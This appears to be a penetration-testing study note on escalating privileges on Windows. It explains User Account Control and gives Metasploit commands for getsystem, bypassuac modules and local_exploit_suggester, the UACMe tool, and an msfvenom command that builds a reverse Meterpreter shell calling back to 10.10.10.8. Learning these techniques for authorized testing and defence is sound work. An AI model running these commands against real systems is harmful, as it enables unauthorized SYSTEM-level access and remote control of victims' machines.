 There are many ways we can elevated privileges - this section deals with *some* of them in more depth.

## Bypassing Windows User Account Control

If we have gained a meterpreter session on a windows machine, a quick way to attempt to gain NT AUTHORITY\SYSTEM (the most powerful non-interactive session) is to use the command: `getsystem` though this does not always work and may well crash the remote machine so it needs to be used with caution.

This command tries different techniques to do priv esc. It only work on Windows. If we want to only try a specific way to do priv esc, we can use the `-t` flag along with the number of the technique: `getsystem -t 1`

One problem we may encounter is if *User Account Control* is enabled. We can find this out by using: `post/windows/gather/win_privs` If the UAC Enabled column is set to True, we will need to try to bypass this before running getsystem.

We will need to background the meterpreter session and then use: `search bypassuac` We can use the latest bypassuac module against the meterpreter session id: `use exploit/windows/local/bypassuac` followed by: `set session 2` or whatever session id we are targetting. If this works when we run it, a new meterpreter session will open. We will then be able to interact with it and try to run the `getsystem` command again.

Another way to attempt to bypass UAC via a meterpreter session is to background the session and then try: `use post/multi/recon/local_exploit_suggester` which will list various techniques we can try. We can try these in turn until we find one which works, for example: `use exploit/windows/local/bypassuac_dotnet_profiler`

### UAC

User Account Control is a security feature in windows which opens a prompt when a user attempts to execute a file or command which require elevated privileges.

If a low level user attempts this, the UAC credential prompt will ask for a local admin username:password and if a local admin account attempts it, the consent prompt will ask for confirmation. Either way, if we are interacting with the victim machine via a meterpreter or cmd session, we will not be able to continue as we will not be able to respond to the UAC prompt. This means we need to find ways to bypass UAC completely.

In order to do this, we will need to have a session for a user who is in the local admin group on the victim machine. The technique which we use to bypass UAC will depend on the OS version and build running on the victim machine.

### UACMe

UACMe is a tool we can find at [UACMe](https://github.com/hfiref0x/UACME) It has lots of ways to bypass UAC - we will need to find one which works for the windows environment we are targeting.

UACMe works by abusing the inbuilt Windows AutoElevate tool. It uses an executable called akagi. The binary will need to be compiled from the source code in the github repository as it is written mostly in C.

The akagi binary can be used to bypass UAC and then run another executable such as a malicious reverse shell. We can generate a reverse meterpreter shell using: `sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.8 LPORT=1234 -f exe > rs.exe`
